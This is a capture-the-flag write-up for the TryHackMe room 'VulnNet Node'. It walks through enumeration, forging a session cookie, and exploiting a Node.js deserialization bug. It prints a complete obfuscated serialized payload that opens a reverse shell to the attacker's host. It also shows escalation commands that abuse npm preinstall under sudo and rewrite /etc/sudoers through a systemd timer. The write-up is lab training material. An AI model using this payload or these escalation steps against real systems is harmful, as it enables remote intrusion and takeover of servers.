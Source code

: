 ```yaml
---
title: "VulnNet Node TryHackMe"
date: "07-23-2021"
author: "Reda BELHAJ"
summary: "VulnNet Entertainment has moved its infrastructure and now they're confident that no breach will happen again. You're tasked to prove otherwise and penetrate their network. This room is Created by TheCyb3rW0lf"
tags: ["TryHackMe", "Ctf", "Writeup"]
image: "/images/VulnNet/bg.jpg"
---
```


## Enumeration
### Nmap Scan

The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.143.49 -sC -sS -Pn
```
The “Nmap Output” displayed `1` service running under port 8080 you guessed it that's HTTP.
![Nmap](/images/VulnNet/nmap.jpg)
Connecting to this port in a browser shows a web page with posts

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:
![Gobuster](/images/VulnNet/gobuster.jpg)

## Exploring 
Let's take a closer look at the web application. When we visit the website, we are presented with a regular online application  with posts from users.

So by Exploring the web app I saw the Welcome guest header and I decided to intercept the servers main page request using burpsuite, And I found:
![Burp](/images/VulnNet/burp.jpg)

A session cookie is visible in the request. So I sent the cookie to the decoder Tab:
![Decode](/images/VulnNet/decode.jpg)

So by decoding the cookie We have some JSON informations, My first assumption was maybe we could be able to bypass the application and I tried to set a new cookie with:
![Encode](/images/VulnNet/encode.jpg)

Then I replaced the guest cookie with the encoded modified cookie and it output the following:
![Admin](/images/VulnNet/admin.jpg)

![Admin 2](/images/VulnNet/admin2.jpg)

Next I decided to go to /login but I didn't found nothing, So I began to consider that maybe the login page is a rabbit hole and I came up with this idea 🤔 .

> What if I sent an invalid cookie

![Error](/images/VulnNet/error.jpg)

## Exploiting

Searching for “nodejs unserialize reverse shell” leads to [this page](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) which I followed to generate the reverse shell payload. and I also came across [this repository](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) and I run this command:

```
python nodeshell.py 127.0.0.1 4444
```

Now let’s generate the serialized payload and add:

```
{"rce":"_$$ND_FUNC$$_function (){// The payload //}()"}
```

```
{"rce":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,56,46,49,55,52,46,49,56,48,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}

```
Finally, base64-encode the serialized payload as follows:
![payload](/images/VulnNet/encodepaylo.jpg)

## User Flag
And now I got the reverse shell as `www`
So I checked [GTFObins](https://gtfobins.github.io/gtfobins/npm/#sudo) so that I spawn a bash shell as `serv-manage`.
![sudo](/images/VulnNet/sudo.jpg)

```
echo '{"scripts": {"preinstall": "/bin/sh"}}' > exploit/package.json
sudo -u serv-manage /usr/bin/npm -C /dev/shm/exploit/ --unsafe-perm i
```
Let’s get the user flag in /home/serv-manage

```
THM{0********************************
```

## Root Flag
So now I tried the infamous `sudo -l` comand to privilege escalate the system again:

![sudo 2](/images/VulnNet/sudo2.jpg)

```
cat /etc/systemd/system/vulnnet-auto.timer
```
The service executes df system command:

```
[Unit]
Description=Run VulnNet utilities every 30 min
 
[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/1
Unit=vulnnet-job.service
 
[Install]
WantedBy=basic.target
```
So Now I added this line in the file:

```
ExecStart=/bin/sh -c 'echo "serv-manage ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
```

And now we're root, Let's check the root dir for a flag:

```
THM{a********************************
```